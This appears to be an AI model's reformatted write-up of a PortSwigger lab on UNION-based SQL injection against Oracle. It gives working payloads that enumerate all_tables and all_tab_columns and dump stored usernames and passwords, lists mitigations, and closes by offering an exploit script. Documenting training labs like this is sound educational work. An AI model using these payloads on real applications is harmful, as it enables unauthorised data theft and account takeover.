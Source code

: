 # SQL injection attack, listing the database contents on Oracle

Got it 👍 I’ll reformat your Oracle SQLi write-up into the **same structure and style** as your PostgreSQL example draft. Here’s the cleaned-up version:

---

# SQL injection attack, listing the database contents on Oracle databases

**Lab banner – PortSwigger Practitioner level**

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on Oracle databases”*, we demonstrated how an attacker can enumerate Oracle database tables, their columns, and sensitive user credentials using a series of UNION SELECT queries against the `all_tables` and `all_tab_columns` system views. Because the application concatenates user input directly into SQL statements without sanitisation, we pivoted from initial UNION tests to full schema enumeration and credential harvesting.

---

## Description

**Lab banner – PortSwigger Practitioner level**

This lab challenges us to exploit a UNION-based SQL injection vulnerability in an Oracle database. By abusing Oracle’s metadata views, we were able to extract the names of database tables, enumerate columns of interest, and dump stored usernames and passwords.

---

## Why This Matters to You

* **Full data breach**: Oracle’s system views (`all_tables`, `all_tab_columns`) make schema enumeration straightforward once injection is possible.
* **Persistence risk**: Knowledge of table and column structures allows attackers to craft further malicious queries or establish backdoors.
* **Compliance violations**: Harvesting plaintext or weakly hashed credentials can trigger GDPR, CCPA, or equivalent reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                          | Intended SQL generated by the app                                                                                                 | What actually happens & why                                                     |
| - | --------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| 1 | Confirmed number and type of columns via UNION injection (2 columns, both strings).                                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT 'a','b'--`                                                               | Verified injection point and established query structure.                       |
| 2 | Enumerated tables with:<br>`' UNION SELECT table_name,NULL FROM all_tables--`                                                           | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name,NULL FROM all_tables--`                                       | Retrieved all table names. Identified `USERS_TOAEAL` as the target users table. |
| 3 | Enumerated columns for `USERS_TOAEAL` with:<br>`' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Revealed sensitive columns `USERNAME_DINZLR` and `PASSWORD_BTNGGB`.             |
| 4 | Extracted credentials with:<br>`' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | Retrieved full list of usernames and passwords.                                 |
| 5 | Logged in using harvested credentials.                                                                                                  | —                                                                                                                                 | Administrative access granted, lab solved.                                      |

---

## Observable Output

| Test / Payload                                                                           | Visible Result                                 | What it Proved                       |
| ---------------------------------------------------------------------------------------- | ---------------------------------------------- | ------------------------------------ |
| `' UNION SELECT 'a','b'--`                                                               | Page rendered with injected values             | Confirmed 2-column structure.        |
| `' UNION SELECT table_name,NULL FROM all_tables--`                                       | List of Oracle system + custom tables          | Schema enumeration successful.       |
| `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Displayed `USERNAME_DINZLR`, `PASSWORD_BTNGGB` | Sensitive column names identified.   |
| `' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | List of usernames and passwords                | Full credential disclosure achieved. |

---

## Conclusion

By leveraging UNION-based SQL injection against Oracle system views, we escalated from basic injection discovery to a full schema compromise, ultimately harvesting usernames and passwords. The lab highlights the risk of unsanitised SQL concatenation in Oracle environments.

**Mitigations**:

* Use parameterised queries (prepared statements) instead of string concatenation.
* Apply least-privilege roles to database users so applications cannot query metadata views.
* Enforce secure password storage (strong hashing, salting).

---

Would you like me to also **recreate the Python automation script (script.py)** in the same professional format for this Oracle lab write-up? That way, your walkthrough will look like a full pentest report + exploit code package.
